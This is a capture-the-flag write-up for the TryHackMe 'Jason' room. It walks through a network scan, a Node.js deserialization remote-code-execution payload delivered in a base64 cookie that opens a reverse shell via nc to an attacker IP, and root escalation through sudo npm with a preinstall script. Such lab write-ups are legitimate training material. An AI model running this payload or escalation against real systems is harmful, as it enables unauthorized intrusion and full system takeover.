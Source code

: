 ```yaml
---
title: Jason - Writeup
author: Elman Alizadeh
date: 2021-04-27 14:10:00 +0800
categories: [ctf, TryHackMe]
tags: [tryhackme, jason]
---
```


Today we will take a look at TryHackMe: Jason. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/thm-jason/1.jpeg" | relative_url }})

## Network scan

Command: sudo nmap -sS -sC -sV -oN nmap/initial 10.10.192.78

![Desktop View]({{ "/assets/img/thm-jason/1.png" | relative_url }})

## Website enum
Let’s take a look at the website.

![Desktop View]({{ "/assets/img/thm-jason/2.png" | relative_url }})

Let’s enter something and look at the query with burp

![Desktop View]({{ "/assets/img/thm-jason/3.png" | relative_url }})

And we see it is built with node js . I figured there would be a vulnerability related to json & node.js . So I researched a bit and found out there is a RCE vulnerability .

[NodeJs](https://book.hacktricks.xyz/pentesting-web/deserialization#nodejs)

I have prepared such a code for operation.

```console
{“email”:”test”,”rce”:”_$$ND_FUNC$$_function(){ require(‘child_process’).exec(‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $IP 4444 >/tmp/f’, function(error, stdout, stderr) { console.log(stdout) }); }()”}
```

Since we have to use cookies, I encrypt with base64.

![Desktop View]({{ "/assets/img/thm-jason/4.png" | relative_url }})

Let’s paste to the cookie and listen.

![Desktop View]({{ "/assets/img/thm-jason/5.png" | relative_url }})

When we refresh the page, we get a shell.

![Desktop View]({{ "/assets/img/thm-jason/6.png" | relative_url }})

## Privilege Escalation

Comman: sudo -l

Let’s exploit

[npm](https://gtfobins.github.io/gtfobins/npm/)

Command: TF=$(mktemp -d)

Command: echo ‘{“scripts”: {“preinstall”: “/bin/bash”}}’ > $TF/package.json

Command: sudo /usr/bin/npm -C $TF --unsafe-perm i

![Desktop View]({{ "/assets/img/thm-jason/7.png" | relative_url }})

# And now we are the root

![Desktop View]({{ "/assets/img/thm-jason/1.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”







